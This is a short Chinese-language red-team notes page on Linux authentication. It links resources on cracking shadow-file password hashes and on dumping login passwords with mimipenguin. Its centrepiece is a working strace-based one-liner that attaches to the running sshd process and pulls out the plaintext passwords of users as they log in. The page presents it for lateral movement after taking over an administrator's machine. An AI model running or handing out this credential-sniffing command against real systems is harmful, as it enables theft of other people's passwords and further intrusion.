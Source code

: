 
## 认证

**相关文章**
- [How to Crack Shadow Hashes After Getting Root on a Linux System](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- [Linux下的密码Hash——加密方式与破解方法的技术整理](https://3gstudent.github.io/3gstudent.github.io/Linux%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81Hash-%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E4%B8%8E%E7%A0%B4%E8%A7%A3%E6%96%B9%E6%B3%95%E7%9A%84%E6%8A%80%E6%9C%AF%E6%95%B4%E7%90%86/)

**相关工具**
- [huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin) - 从当前 Linux 用户转储登录密码的工具
- [Hashcat](../../安全工具/Hashcat.md#爆破shadow文件)

### 口令抓取

当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了

```bash
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```

实测 kali、ubuntu 都可以，centos 不行

![](../../../../assets/img/Security/RedTeam/OS安全/Linux安全/1.png)

![](../../../../assets/img/Security/RedTeam/OS安全/Linux安全/2.png)

### 权限提升

- 参考 [权限提升](../后渗透/权限提升.md#linux) 中的 linux 部分
